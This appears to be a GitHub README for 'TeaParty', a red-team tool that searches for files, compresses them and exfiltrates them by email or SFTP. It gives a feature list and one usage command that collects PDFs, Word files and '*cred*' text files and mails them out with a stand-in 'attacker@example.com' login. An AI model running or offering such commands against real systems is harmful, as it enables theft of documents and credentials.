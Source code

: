 # TeaParty 🫖

TeaParty is a console-based tool for searching, compressing, and exfiltrating files via email or SFTP. Designed for red team operations, incident response, or automation.

## Features

- Search by file extension, name pattern, or both
- Recursive search with exclusion filters
- ZIP compression with SHA256 integrity hashes
- Email delivery (supports multiple recipients)
- SFTP fallback if email fails (optional)
- Logging with `--debug` and `--quiet` mode
- Interactive input or CLI arguments
- Hash-based cache to avoid duplicates

Remember that -h (help) option is available to see more options in details.
## Usage

```bash
teaparty.exe -s 3 -e .pdf,.docx -p *cred*.txt -d C:\data -m attacker@example.com:pass -to target@example.com -z 1

